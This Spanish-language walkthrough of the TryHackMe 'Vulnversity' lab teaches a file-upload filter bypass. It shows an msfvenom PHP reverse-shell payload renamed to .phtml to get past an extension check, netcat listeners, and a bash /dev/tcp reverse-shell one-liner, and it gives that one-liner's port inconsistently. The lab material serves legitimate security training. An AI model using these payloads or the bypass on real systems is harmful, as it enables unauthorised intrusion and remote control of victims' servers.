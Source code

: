 
----
- TAG: #Bypass #Restrcción #File #Upload
----
# Subida de Archivos Maliciosos y Bypass en Páginas Web

En este apartado, vamos a reforzar un poco la subida de archivos maliciosos a una página web. Practicaremos en una página web que no nos permita subir este tipo de archivos, para poder practicar sobre el **Bypass** y **Forzar la subida de una WebShell de un archivo malicioso a una máquina vulnerable**.

Para esto, vamos a necesitar:
1. Una máquina **Kali Linux**.
2. Máquina vulnerable de **TryHackMe** [Máquina Vulnversity](https://tryhackme.com/r/room/vulnversity).

Para esta práctica, vamos a necesitar tener una cuenta creada en **TryHackMe**.

Descargamos la **VPN** para posteriormente ir a nuestra terminal en Kali Linux y conectarnos a la VPN de la siguiente manera:

```bash
openvpn TunombreAqui.ovpn
```

Una vez dentro, realizamos un `ping -c 1` a la dirección de la máquina y tu dirección VPN de atacante. Si tenemos conectividad al hacer ping, significa que podemos realizar un escaneo con `nmap` con los siguientes parámetros:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
```

Después del escaneo, nos damos cuenta de que tiene un protocolo **http** corriendo por el puerto **3333**.

Nos dirigimos al navegador e ingresamos la dirección IP con el puerto abierto 3333. Nos muestra una página web universitaria. 

En este punto, lo primero que nos interesaría sería hacer un **Fuzzing Web** para poder encontrar directorios ocultos, como `/admin`, `/login`, `/passwords`, etc. 

Copiamos toda la dirección y realizamos el siguiente comando:

```bash
gobuster dir -u http://1.2.3.4:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Al realizar esto, encontraremos el directorio `/internal`, así que lo pegamos al final de la **URL** y veremos que nos carga una página para poder subir archivos.

En blocs anteriores hemos visto cómo crear payloads maliciosos para poderlos subir como archivos `.php`, pero hay muchas páginas que no lo permiten ya que es un gran fallo de seguridad y esta máquina nos permite practicar con ese error.

Si creamos el payload con `msfvenom` con extensión `.php`, veremos que al querer subirlo nos saldrá un mensaje de error que dice "Extensión no permitida":

```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
```

Para estas ocasiones, podemos usar la extensión `.phtml` de `.php` mismo. Esto, en efectos prácticos, sería casi lo mismo; ahí entra en juego el **Bypass** ya que simulamos que el archivo `.phtml` es en realidad un `.php`.

Para ello, lo podemos cambiar de la siguiente manera:

```bash
mv pwned.php pwned.phtml
```

Ahora, si nos dirigimos de nuevo a la página y lo intentamos subir nuevamente con la extensión actualizada, veremos que saldrá "Success".

Ahora se preguntarán dónde se guardó este archivo. Pues lo buscamos realizando **Fuzzing** al directorio `/internal` con `gobuster`:

```bash
gobuster dir -u http://1.2.3.4:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Vemos que de primera nos muestra el directorio `uploads`, así que tratamos de ingresar por la **URL** y vemos que se encuentra nuestro archivo subido con extensión `.phtml`.

Enseguida, nos ponemos en escucha por el puerto **443** y le damos click al archivo que hemos subido en la dirección uploads:

```bash
nc -nlvp 443
```

Y si todo salió bien, efectivamente estaremos dentro de la máquina víctima realizando ese bypass. 😉

Recuerden que la sesión no suele durar mucho, así que debemos realizar el siguiente procedimiento:

Haremos una reverse shell y, para ello, primero debemos ponernos a la escucha por otro puerto diferente:

```bash
nc -nlvp 444
```

Desde aquí, recibimos la reverse shell. Para ello, tenemos la ayuda de esta página web [devshells](https://www.devshells.com), que nos ayuda creando el payload `sh -i >& /dev/tcp/1.2.3.4/4444 0>&1` y lo pegamos en la conexión que tenemos con netcat por el puerto 443:

```bash
nc -nlvp 443
bash -c "sh -i >& /dev/tcp/1.2.3.4/444 0>&1"
```

En otra terminal, abrimos el puerto **444** que se encuentra abierto y veremos que recibimos la conexión más estable.

Les recomiendo estudiar un poco el tema de las extensiones `.php` como la que vimos que fue `.phtml`.